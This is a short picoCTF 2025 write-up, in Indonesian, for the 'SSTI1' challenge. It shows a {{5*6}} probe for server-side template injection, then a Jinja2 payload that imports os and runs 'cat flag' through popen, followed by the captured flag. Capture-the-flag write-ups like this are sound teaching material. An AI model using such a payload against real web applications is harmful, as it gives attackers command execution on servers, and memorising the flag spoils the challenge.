



# SSTI1 - PicoCTF 2025
Website: [PicoCTF](https://play.picoctf.org/)

## Description <br>
I made a cool website where you can announce whatever you want! Try it out!
Additional details will be available after launching your challenge instance.

## Step-by-step 
1. Saat instance dilaunch muncul page dimana kita bisa mengupload apapun yang kita ketik 

2. Lalu saya coba untuk mengetik payload perkalian sederhana ```{{5*6}}``` untuk mengetes hasil dari payload tersebut.
 
Ternyata menghasilkan perkalian yang benar

3. Langsung saja saya coba untuk upload payload ini untuk mendapatkan flagnya.
```{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}``` 
4. Dan flag nya pun muncul <br>
```picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_dcdca99a}```

